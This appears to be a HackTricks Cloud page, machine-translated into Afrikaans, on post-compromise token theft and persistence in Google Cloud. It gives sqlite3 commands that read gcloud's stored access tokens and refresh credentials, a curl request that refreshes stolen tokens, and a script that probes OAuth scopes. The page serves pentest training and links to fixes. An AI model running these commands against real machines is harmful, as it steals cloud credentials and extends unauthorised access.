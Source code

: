 # GCP - Nie-svc Volharding

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

Hierdie is nuttige tegnieke wanneer jy op een of ander manier sekere GCP-legitimasie of 'n masjien wat in 'n GCP-omgewing loop, gekompromitteer het.

## Token Ontvoering

### Geauthentiseerde Gebruiker Tokens

Om die **huidige token** van 'n gebruiker te kry, kan jy hardloop:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Kyk op hierdie bladsy hoe om **hierdie token direk te gebruik met gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Om die besonderhede te kry om 'n nuwe toegangsteken te **genereer**, hardloop: 

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
Dit is ook moontlik om hernuwingsleutels te vind in **`$HOME/.config/gcloud/application_default_credentials.json`** en in **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Om 'n nuwe verfriste toegangskode te kry met die **hernuwingsleutel**, kliënt-ID, en kliënt-geheim hardloop:
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Die geldigheid van die hernuwingsleutels kan bestuur word in **Admin** > **Sekuriteit** > **Google Cloud-sessiebeheer**, en dit is standaard op 16 uur ingestel, alhoewel dit op nooit verval ingestel kan word:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Outeursvloei

Die outentiseringsvloei wanneer iets soos `gcloud auth login` gebruik word, sal 'n venster in die blaaier oopmaak en nadat al die omvang aanvaar is, sal die blaaier 'n versoek soos hierdie een stuur na die http-poort wat oopgemaak is deur die instrument:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Dan sal gcloud die toestand en kode gebruik met 'n paar hardgekoppelde `client_id` (`32555940559.apps.googleusercontent.com`) en **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) om die **finale verfris-token data** te kry.

{% hint style="danger" %}
Let daarop dat die kommunikasie met die plaaslike bediener in HTTP is, so dit is moontlik om die data te onderskep om 'n verfris-token te kry, maar hierdie data is net een keer geldig, so dit sal nutteloos wees, dit is makliker om net die verfris-token uit die lêer te lees.
{% endhint %}

### OAuth-scope

Jy kan al die Google-scope vind in [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) of kry hulle deur uit te voer:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

Dit is moontlik om te sien watter omvang die aansoek wat **`gcloud`** gebruik om te verifieer, kan ondersteun met hierdie skrip:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Na uitvoering is nagegaan dat hierdie program hierdie omvang ondersteun:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
Dit is interessant om te sien hoe hierdie app die **`drive`** scope ondersteun, wat 'n gebruiker kan toelaat om van GCP na Workspace te eskaleer as 'n aanvaller daarin slaag om die gebruiker te dwing om 'n token met hierdie scope te genereer.

**Kyk hoe om dit te** [**misbruik hier**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Diensrekeninge

Net soos met geauthentiseerde gebruikers, as jy daarin slaag om die **privaatsleutel-lêer te kompromiteer** van 'n diensrekening, sal jy dit **gewoonlik so lank as wat jy wil kan toegang**.\
Maar, as jy die **OAuth-token** van 'n diensrekening steel, kan dit selfs meer interessant wees, want selfs al is hierdie tokens standaard net vir 'n uur nuttig, as die **slagoffer die privaat API-sleutel verwyder, sal die OAuth-token nog steeds geldig wees tot dit verval**.

### Metadata

Vanzelfsprekend, solank as wat jy binne 'n masjien hardloop wat in die GCP-omgewing hardloop, sal jy in staat wees om die diensrekening wat aan daardie masjien gekoppel is, te **benader deur die metadata-eindpunt te kontak** (let daarop dat die OAuth-tokens wat jy in hierdie eindpunt kan benader, gewoonlik beperk word deur scopes).

### Regstellings

Sommige regstellings vir hierdie tegnieke word verduidelik in [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## Verwysings

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
